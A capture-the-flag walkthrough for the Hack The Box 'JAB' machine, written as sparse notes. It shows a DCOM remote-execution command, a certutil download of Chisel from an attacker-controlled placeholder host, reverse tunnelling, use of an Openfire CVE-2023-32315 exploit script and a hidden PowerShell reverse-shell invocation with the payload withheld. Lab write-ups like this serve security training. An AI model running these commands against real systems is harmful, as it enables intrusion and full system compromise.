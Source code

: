 # Lab JAB - Hack The Box Walkthrough

This document outlines the steps followed to complete the "JAB" lab on Hack The Box, including the commands used with IP addresses replaced by placeholders.

## Initial Reconnaissance

**Kerberos Enumeration:**
A vulnerable Kerberos ticket for `jmontgomery` was identified and exploited to extract critical information without providing the exact command.

Connect to XMPP with credentials

## Exploitation

**Access to `svc_openfire` service:**
Utilized the obtained credentials for the `svc_openfire` service to execute remote commands:

```bash
./dcomexec.py -object MMC20 'jab.htb/svc_openfire:PASSWORD'@'@IP' 'cmd.exe /c powershell -e [EncodedCommand]'
```

user flag

**Chisel Tunneling:**
Downloading to the target machine and executing Chisel to establish a tunnel:

```bash
certutil.exe -urlcache -f http://@IP:8000/chisel.exe chisel.exe
./chisel server -p 9000 --reverse
./chisel.exe client @IP:9000 R:9090:127.0.0.1:9090
```
**Privilege Escalation on OpenFire**
Exploiting CVE-2023-32315
Using an exploit script without providing the exact details:

```bash
./CVE-2023-32315.py -t http://127.0.0.1:9090
--> Connect with a user previously created with admin rights
--> Add the .jar
---> go Management tool command, code 123
```
Executing a PowerShell reverse shell command:

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "[EncodedCommand]"
```

YOU GOT NT SYSTEM

